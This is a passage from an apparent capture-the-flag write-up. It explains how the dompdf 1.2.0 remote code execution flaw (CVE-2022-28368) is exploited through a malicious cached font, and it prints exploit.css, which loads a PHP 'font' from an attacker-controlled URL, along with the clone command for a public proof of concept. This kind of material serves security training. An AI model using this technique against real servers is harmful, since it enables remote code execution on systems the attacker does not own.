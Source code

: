## Shell as www-data

### dompdf Vulnerability

Searching for dompdf vulnerabilities, I’ll find [this post](https://positive.security/blog/dompdf-rce) from Positive Security describing an RCE exploit in dompdf version 1.2.0, which matches what is on Interface. This vulnerability is assigned CVE-2022-28368.

There is an option in dompdf to execute PHP code in the conversion, but it’s disabled by default. I’ll want to check that. But they also show how to reference a malicious font such that it will be cached by the server and then when requested it will run arbitrary PHP code, like this:

![img](/img/622a16a6fe8ba07ec2a8b52c_dompdf_rce_cover_cropped.png)

### RCE

#### POC Analysis

Positive Security hosts a proof of concept exploit available [here](https://github.com/positive-security/dompdf-rce), which I’ll clone to my machine with `git clone https://github.com/positive-security/dompdf-rce`. It seems that many more POC scripts have come out since Interface’s release. I’ll work with this original.

It has two folders along side the readme:

```

oxdf@hacky$ ls
application  exploit  README.md

```

`application` holds a vulnerable application. I’m interested in `exploit`:

```

oxdf@hacky$ ls exploit/
exploit.css  exploit_font.php  overview.png

```

`overview.png` is the image I showed above.

The exploit idea is to send in HTML that loads `exploit.css` as a stylesheet. That file looks like:

```

@font-face {
    font-family:'exploitfont';
    src:url('http://localhost:9001/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
  }

```
